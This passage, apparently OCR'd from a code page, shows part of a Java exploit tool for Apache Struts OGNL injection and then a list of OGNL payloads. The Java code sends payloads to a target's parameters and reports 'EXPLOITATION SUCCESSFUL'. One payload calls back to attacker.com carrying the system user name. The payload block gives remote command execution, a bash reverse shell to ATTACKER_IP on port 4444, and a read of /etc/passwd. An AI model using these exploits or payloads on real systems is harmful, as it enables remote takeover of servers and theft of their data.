 ```java
            "%{(#url=new java.net.URL('http://attacker.com/callback?pwned='+@java.lang.System@getProperty('user.name'))).(#url.openConnection().getContent())}"
        };

        for (String payload : payloads) {
            System.out.println("💥 Testing payload: " + payload.substring(0, Math.min(50, payload.length())) + "...");
            testStrutsEndpoint("http://vulnerable-app.com/struts-app/", payload);
        }
    }

    private static void testStrutsEndpoint(String baseUrl, String payload) throws Exception {
        // Test different parameter injection points
        String[] parameters = {
            "action=" + payload,
            "redirect:" + payload,
            "redirectAction:" + payload,
            "actionName=" + payload,
            "method:" + payload
        };

        for (String param : parameters) {
            HttpClient client = HttpClient.newHttpClient();
            HttpRequest request = HttpRequest.newBuilder()
                .uri(URI.create(baseUrl + "?" + param))
                .header("Content-Type", "application/x-www-form-urlencoded")
                .header("User-Agent", "StrutsExploit/1.0")
                .build();

            try {
                HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());

                if (response.body().contains("RCE_SUCCESS") ||
                    response.statusCode() == 500) {
                    System.out.println("✅ EXPLOITATION SUCCESSFUL!");
                    System.out.println("   Parameter: " + param);
                    System.out.println("   Response: " + response.statusCode());
                }
            } catch (Exception e) {
                System.out.println("⚠️ Request failed: " + e.getMessage());
            }
        }
    }
}
```

### **Advanced OGNL Payloads**
```bash
# 1. Direct command execution
%{(#cmd='whoami').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

# 2. Reverse shell payload
%{(#cmd='/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.start())}

# 3. File upload/download
%{(#f=new java.io.FileInputStream('/etc/passwd')).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#f,#ros)).(#ros.flush())}

```
